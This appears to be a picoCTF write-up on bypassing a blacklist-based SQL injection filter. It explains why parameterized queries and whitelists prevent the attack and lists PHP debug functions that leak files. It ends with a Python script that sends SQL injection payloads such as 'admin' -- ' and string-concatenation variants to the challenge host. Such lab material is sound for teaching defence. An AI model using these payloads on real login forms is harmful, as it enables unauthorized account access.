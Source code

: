 Whitelist vs. Blacklist:

Blacklist (This Challenge): Defines what is not allowed (e.g., block: '--', '/*', 'admin'). Everything else is permitted.

Whitelist (Secure): Defines what is allowed (e.g., allow: a-z, 0-9, _). Everything else is rejected. A strict whitelist for the username would have prevented this entire attack.

The True Solution: Parameterized Queries (Prepared Statements):

The root cause is mixing code (the SELECT statement) with data (the username).

Prepared Statements send the query template to the database first (e.g., SELECT * FROM users WHERE username = ?).

Then, it sends the user's data (admin' -- ) separately. The database never executes the data; it only uses it as a value for the ? parameter. This makes SQLi impossible.

Stateful Web Exploitation: Many CTFs require managing a session. The server uses the PHPSESSID cookie (or similar) to link your requests to your $_SESSION data on the server. If you use a script, you must use a session object (like requests.Session in Python) to automatically capture and resend this cookie with every request.

Information Disclosure via Debug Functions: Developers often leave debug functions in production code. Any function that can read and display files from the server is a high-severity vulnerability.

Functions to look for: highlight_file(), show_source() (an alias), file_get_contents(), readfile(), fopen(), include().

## Notes 
Scripting the Attack: This challenge is ideal for automation. You would use a requests.Session in Python to maintain the session cookie.

```python

import requests

# URL of the challenge
url = "http://shape-facility.picoctf.net:63293/"

# Payloads for each round, in order
payloads = [
    "admin' -- ",
    "admin' /*",
    "adm' || 'in' -- ",
    # ... add more as needed, e.g., "ad' || 'min' /*"
]

# Use a Session object to persist cookies
s = requests.Session()

# Send the first request to get a session
s.get(url)

for payload in payloads:
    print(f"[*] Sending payload: {payload}")
    form_data = {
        "username": payload,
        "password": "password" # Password doesn't matter
    }

    # Send the POST request with our payload
    r = s.post(url, data=form_data)

    # Check if we triggered the flag
    if "picoCTF{" in r.text:
        print(f"[+] Flag found in response!")
        print(r.text)
```